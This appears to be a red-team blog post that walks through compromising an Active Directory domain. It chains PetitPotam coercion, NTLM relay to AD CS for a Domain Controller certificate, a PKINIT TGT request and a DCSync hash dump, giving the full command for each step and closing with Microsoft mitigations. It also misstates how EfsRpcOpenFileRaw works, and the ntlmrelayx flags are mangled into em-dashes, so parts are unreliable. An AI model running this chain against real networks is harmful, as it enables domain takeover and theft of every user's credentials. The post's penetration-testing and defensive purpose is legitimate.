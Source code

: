 ```yaml
---
layout: post
title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
date: "2025-03-21"
authors: ["joao_paulo_assis"]
categories: ["Pentesting", "Red Team", "Hacking", "Active Directory"]
description:
thumbnail: "/assets/images/posts/joao-paulo/1/1-cloudflare-zero-trust.webp"
image: "define it"
comments: false

meta_title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
meta_description:
meta_image: "/assets/images/posts/joao-paulo/1/1-cloudflare-zero-trust.webp"
---
```


Today, we’re going to discuss a vulnerability that has been known for some time, yet continues to be a thorn in the side of many domain administrators: the notorious <strong>PetitPotam</strong>.

But what exactly is this vulnerability? It’s a flaw associated with the <strong>MS-EFSRPC</strong> protocol (Microsoft Encrypting File System Remote Protocol, which is a Remote Procedure Call interface used to manage encrypted data, enforcing access control policies and confidentiality against unauthorized access). When combined with an NTLM Relay attack, this vulnerability allows an attacker to force a Domain Controller (DC) to authenticate to a listener under the attacker’s control. The attacker can then relay these credentials to another target—most commonly to AD CS (Active Directory Certificate Services). As a result, the attacker can obtain a certificate issued by the Domain Controller, which can then be used to request a Ticket Granting Ticket (TGT), thereby compromising the domain using the Pass-The-Ticket technique.

It’s worth noting that there are several other ways to combine this attack to exploit different flaws in Active Directory processes. However, the method I’ll be focusing on today is related to AD CS. AD CS is particularly interesting because it offers services and functionalities that, <strong>by default</strong>, accept NTLM-based authentication. These services specifically include the <strong>Certificate Authority Web Enrollment</strong> and the <strong>Certificate Enrollment Web Service</strong>.

Alright, let’s get straight to the point. First of all, how can this vulnerability be identified? Thanks to the great NetExec project, we have a module called PetitPotam at our disposal. This module essentially replicates the process carried out by the exploit, which involves performing an insufficient path check in the MS-EFSR protocol using the EfsRpcOpenFileRaw method. This method allows attackers to force the SYSTEM account to create an executable file of their choice, thereby granting local administrative privileges.

So, we can use the following command syntax:

> nxc smb $target-IP -u username -p password -M coerce_plus -o METHOD=PetitPotam

If the system is vulnerable, you’ll see a result similar to this:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/result-vulnerable.webp" alt="Result Vulnerable" %}
</center>

As we can see, it already provides us with the information on where to find the exploit to take advantage of this vulnerability — it can be found at
<a href="https://github.com/topotam/PetitPotam/" target="_blank">https://github.com/topotam/PetitPotam/</a>

Alright, now that we have the exploit in hand, we can move on to the next step, which is configuring ntlmrelayx to capture the authentication and relay it to the AD CS server. You can find ntlmrelayx in Fortra’s repository: <a href="https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py" target="_blank">https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py</a>

The ntlmrelayx configuration syntax will look something like this:

> python3 ntlmrelayx.py -debug -t http://adcs.alvo.com.br/certsrv/certfnsh.asp -smb2support — adcs — template DomainController

In place of adcs.alvo.com.br, you’ll need to specify the URL of your domain’s AD CS. I’m guessing you’d appreciate a tip on how to find that information—no worries, I’ve got you covered! :)

There are several ways to identify or enumerate AD CS. I’ll leave a link below with a variety of commands using both certutil and ldapsearch for that purpose—make good use of it!

{% include framework/shortcodes/link-preview.html
   link="https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates"
   title="ADCS PrivEsc: Certificate Templates"
   subtitle="Privilege escalation with Active Directory Certificate Services"
   domain="0xalwayslucky.gitbook.io"
%}

Now that we have this information, we can move on to executing our exploit with the goal of relaying the credentials to AD CS and obtaining our valuable base64-encoded PKCS#12 certificate in the name of the Domain Controller. The syntax for running the exploit would look something like this:

> python3 petitpotam.py $listener-ip $target-ip

<strong>Note: If you’re running this on a Windows machine, you may need to provide authentication to the exploit, which would look like this:</strong>

> python3 petitpotam.py -u username -p password -d domain $listener-ip $target-ip

What is <strong>$listener-ip?</strong> It refers to the IP address where the ntlmrelayx server is running. Keep in mind that this server must be able to communicate with both the Domain Controller and the AD CS. As for <strong>$target-ip</strong>, it refers to the IP address of the vulnerable Domain Controller that was identified during the CrackMapExec phase.

If the exploit runs successfully, you’ll receive something like this on your ntlmrelayx output:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/logs.webp" alt="LOGS" %}
</center>

Great — we now have our base64-encoded PKCS#12 certificate issued by AD CS in the name of the Domain Controller. So, what’s the next step? We need to obtain a TGT using this certificate. In many articles, tools like Kekeo, Rubeus, and Mimikatz are commonly used to carry out this stage of the attack, but there are other ways we can leverage this as well.

To obtain the TGT, I recommend using a tool called gettgtpkinit.py, which can be found in the following repository: <a href="https://github.com/dirkjanm/PKINITtools" target="_blank">https://github.com/dirkjanm/PKINITtools</a>

The syntax will look something like this:

> python3 gettgtpkinit.py domain/username -pfx-base64 (certificate) dc.ccache

Keep in mind that the username should be the user the certificate is linked to—in the example above, that would be <strong>DC-101$</strong>. And where it says (certificate), you’ll replace it with the base64 string that was generated. Once executed, you’ll then have your TGT—in this case, saved as dc.ccache.

With the TGT in hand, there are a number of actions you can now perform within Active Directory. However, to complete our objective of becoming a Domain Admin, we can carry out a DCSync attack. In short, a DCSync attack is an exploitation technique that allows an attacker to mimic the behavior of a Domain Controller (DC) on a network and request password information from other Domain Controllers. This is done through Active Directory replication—a process normally used to synchronize account and password data between Domain Controllers. The DCSync attack can be used to obtain password hashes of specific accounts, including administrator accounts, without requiring physical or administrative access to the target system.

We can use secretsdump to carry out the DCSync attack. To do this, we first need to export our TGT to the Kerberos authentication environment variable using the following command (for Linux machines):

> export KRB5CCNAME=dc.ccache

And the syntax would look something like this:

> python3 secretsdump.py -just-dc -debug -k -no-pass domain\username -outputfile DC.secretsdump

And watch the magic happen—from that point on, you’ll have access to all the password hashes of the domain’s users, including the hashes of the Domain Admins. With that, you can either attempt to crack the passwords and potentially view them in plain text, or alternatively, leverage techniques like Pass-the-Hash to access other services and processes across the network.

And after all, how can our fellow defenders of the realm — the Blue Teamers — mitigate this vulnerability?

There are several ways to mitigate it — some of them even recommended by Microsoft itself, such as:

1. Enable EPA (Extended Protection for Authentication) for Certificate Authority Web Enrollment — <strong>this is the most secure and recommended option</strong>;

2. Enable EPA for the Certificate Enrollment Web Service — <strong>again, the most secure and recommended option</strong>;

3. Enable <strong>“Require SSL,”</strong> which enforces HTTPS-only connections.

Additionally, it’s recommended to evaluate the use of the NTLM protocol across the entire environment. If it’s not necessary, the use of the protocol should be completely removed or disabled.

For more detailed information on mitigation, I recommend checking out the link below:

{% include framework/shortcodes/link-preview.html
   link="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?source=post_page-----851736c57870---------------------------------------"
   title="KB5005413: Mitigating NTLM Relay Attacks on Active Directory Certificate Services (AD CS)"
   subtitle="Microsoft is aware of PetitPotam which can potentially be used to attack Windows domain controllers or other Windows servers."
   domain="support.microsoft.com"
%}
